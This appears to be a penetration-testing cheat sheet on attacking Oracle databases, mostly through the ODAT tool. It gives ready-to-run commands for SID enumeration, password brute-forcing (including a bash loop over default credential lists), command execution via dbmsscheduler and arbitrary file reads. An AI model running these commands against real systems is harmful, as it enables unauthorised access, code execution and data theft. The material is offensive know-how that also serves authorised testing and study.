 # Oracle Databases

Oracle databases are not commonly encountered in CTF challenges, but are very common in corporate environments. Further, [versions &lt;12.1](https://docs.oracle.com/database/121/NTQRF/ap_services.htm#NTQRF700) will by default run with SYSTEM level privileges making these a very desirable attack vector.

Most of the examples here will be utilizing [ODAT ](https://github.com/quentinhardy/odat), the Oracle Database Attacking Tool. This is because it has a number of exploits and scanners built in, is generally easier to set up and more stable than metasploit, and can use a lot of metasploits wordlists and data. However, a lot will be repeated from the [wiki](https://github.com/quentinhardy/odat/wiki), so follow that if you want more in depth information. Follow the guide in the [ODAT readme](https://github.com/quentinhardy/odat) to ensure that your Kali has all the required tools.

In general I'd recommend this over trying to get Metasploit up and running. However, if you are still keen then follow [this guide](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux). For an alternative, see [Andy Gill's guide](https://blog.zsec.uk/msforacle/).

Also see: [oracle-instantclient](https://github.com/bumpx/oracle-instantclient)

## Connecting to the Database

Assuming a remote TNS listener on port 1521, we can connect to a remote database as follows:

```text
/usr/bin/sqlplus64 username/password@192.168.0.5:1521/ORCL
```

It's worth adding the `as sysdba` appended to the above command as your user may already be a database administrator, but the option to connect as one has to be explicitly set. Alternatively pass the `--sysdba` flag to ODAT when logging in:

```text
./odat.py all -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

It's highly recommended to use the `all` module when being presented with a new set of credentials, discovered either via brute-force or from another service. Running this in combination with `--test-modules` will give you a quick overview of what is and isn't possible. Use this flag with any of the below modules to ensure they work correctly.

If using ODAT, I'd also advise passing the `-vvv` flag once you ensure a module is working as it will allow you to debug the SQL commands, and see how they work behind the scenes.

## SID Enumeration

The [Oracle System Identifier](https://docs.oracle.com/cloud/latest/db112/CNCPT/startup.htm#CNCPT601) \(SID\) for Oracle identifies the database instance running on the host. These will be unique for each database instance running, and it's important to identify all SID's available, as different instances can hold different data.

We can use ODAT to enumerate these SID's and find instances to attack. These have to be explicity set in the command so it's important that you verify any one's available:

```text
./odat.py sidguesser -s 10.10.10.82
```

## Username Brute-force

Generally usernames and passwords are not case-sensitive in older Oracle databases, but as of [11g](http://planet.openbravo.com/blog/aware-oracle-11g-login-is-case-sensitive/) this is not the case. Also they are typically subject to an account lockout on too many password attempts ranging from 5 to 10, as we can see here:

```text
string = SYSTEM:0RACLE
ORA-01017: invalid username/password; logon denied
string = SYSTEM:0RACL3
ORA-01017: invalid username/password; logon denied
string = SYSTEM:ORACLE8
ORA-28000: the account is locked
```

Lucky for us it will tell us and could be used as a very basic username enumeration method if you're really really desperate. I'm joking, don't do that. Do not do that! This means you have to be very careful when enumerating database users, and I'd advise sticking to either reused credentials or default password lists specifically targeting Oracle.

We can again use ODAT to brute-force passwords:

```bash
./odat.py passwordguesser -s 192.168.0.5 -d ORCL --accounts-file accounts/accounts_multiple.txt
```

The following bash script can perform a dirty manual brute-force using sqlplus, so be sure to adjust the path's in this one accordingly:

```bash
#!/bin/bash
INPUT=/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv
OLDIFS=$IFS
IFS=,
[ ! -f $INPUT ] && { echo "$INPUT file not found"; exit 99; }
while read comment number username password hash comment
do
 echo "string = $username:$password"
 /usr/bin/sqlplus64 -L $username\/$password\@192.168.0.5:1521\/ORCL | cut -d$'\n' -f 7 
done < $INPUT
IFS=$OLDIFS
```

**Source**: [http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html](http://carnal0wnage.attackresearch.com/2014/10/quick-and-dirty-oracle-brute-forcing.html)

## Code Execution

There's unfortunately nothing as trivial as `xp_cmdshell` for Oracle databases, but we do have options. We can use `dbmsscheduler` in odat to execute arbitrary commands, however the results are not displayed. You'll have to use one of the many file transfer methods to fetch the output of this command.

```text
./odat.py dbmsscheduler -s 192.168.0.5 -d ORCL -U username -P password --sysdba --exec "C:\windows\system32\cmd.exe /c dir C:\\Users\\ > C:\output" -vvv
```

## Arbitrary File Read

I've found the `externaltable` to give the best results in cases like these:

```text
./odat.py externaltable --getFile C:\\Users\\Booj\\Desktop evil.jpg evil.jpg -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

However, do note that `ctxsys` can do the same, but all results are transformed to upper case:

```text
./odat.py ctxsys --getFile 'C:\\Users\\Booj\\Desktop\\evil.jpg' -s 192.168.0.5 -d ORCL -U username -P password --sysdba
```

## Further Reading

[Blackhat USA 2009 - Attacking Oracle with the Metasploit Framework](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf) & [Paper](http://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-PAPER.pdf)  
[Oracle DB Vulnerabilities: The Missing Pentester Handbook](https://hackmag.com/uncategorized/looking-into-methods-to-penetrate-oracle-db/)  
[Hardening Oracle Databases](https://github.com/Reboare/virgil/tree/a351ca46a5878a5ce9a56487f86be1220237a833/h%20ttp:/www.ordba.net/Articles/HardeningOracleDB.htm)  
[Simple Oracle Privilege Escalation Techniques](http://ora-600.pl/art/oracle_privilege_escalation.pdf)  
[Simple Oracle Privilege Escalation Techniques 2](http://ora-600.pl/art/privilege_escalation_2.pdf)

